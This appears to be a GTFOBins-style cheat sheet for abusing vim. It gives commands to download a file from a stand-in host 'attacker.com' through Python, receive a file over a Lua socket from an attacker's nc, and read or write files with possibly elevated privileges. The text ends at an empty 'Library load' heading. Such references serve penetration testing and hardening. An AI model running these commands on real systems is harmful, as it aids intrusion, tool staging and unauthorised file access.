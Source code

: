## File download

It can download remote files.

This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.

```
export URL=http://attacker.com/file_to_get
export LFILE=file_to_save
vim -c ':py import vim,sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r
else: import urllib as r
r.urlretrieve(e["URL"], e["LFILE"])
vim.command(":q!")'
```

Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.

```
export LPORT=12345
export LFILE=file_to_save
vim -c ':lua local k=require("socket");
  local s=assert(k.bind("*",os.getenv("LPORT")));
  local c=s:accept();
  local d,x=c:receive("*a");
  c:close();
  local f=io.open(os.getenv("LFILE"), "wb");
  f:write(d);
  io.close(f);'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
vim file_to_write
iDATA
^[
w
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
vim file_to_read
```

## Library load
